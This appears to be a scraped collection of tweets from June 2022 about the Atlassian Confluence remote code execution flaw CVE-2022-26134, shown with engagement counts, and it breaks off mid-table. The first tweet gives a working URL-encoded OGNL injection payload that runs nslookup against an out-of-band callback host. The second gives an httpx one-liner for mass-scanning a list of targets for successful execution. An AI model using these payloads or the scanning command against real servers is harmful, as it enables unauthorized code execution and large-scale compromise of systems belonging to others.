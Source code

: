 
# S0ufi4n3
**https://twitter.com/S0ufi4n3/status/1533051998077067267 _at 2022-06-04, 11:44:13_**
<blockquote>
Confluence RCE (CVE-2022-26134)
Poc:

{{BaseURL}}/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22nslookup%20{{interactsh-url}}%22%29%7D/
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>47</code></td>
<td>Favorites: <code>168</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1533025788672593920 _at 2022-06-04, 10:00:04_**
<blockquote>
CVE-2022-26134  Confluence RCE exploit automation :

httpx -l list.txt  -paths path.txt  -match-string "gid="
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>108</code></td>
<td>Favorites: <code>366</code></td>
</tr></table>

---

# sheikhrishad0
**https://twitter.com/sheikhrishad0/status/1532966090841915392 _at 2022-06-04, 06:02:51_**
<blockquote>
CVE-2022-26134: Atlassian Confluence RCE PoC

#BugBounty https://t.co/7UFw7TkwME
</blockquote>

<table><tr>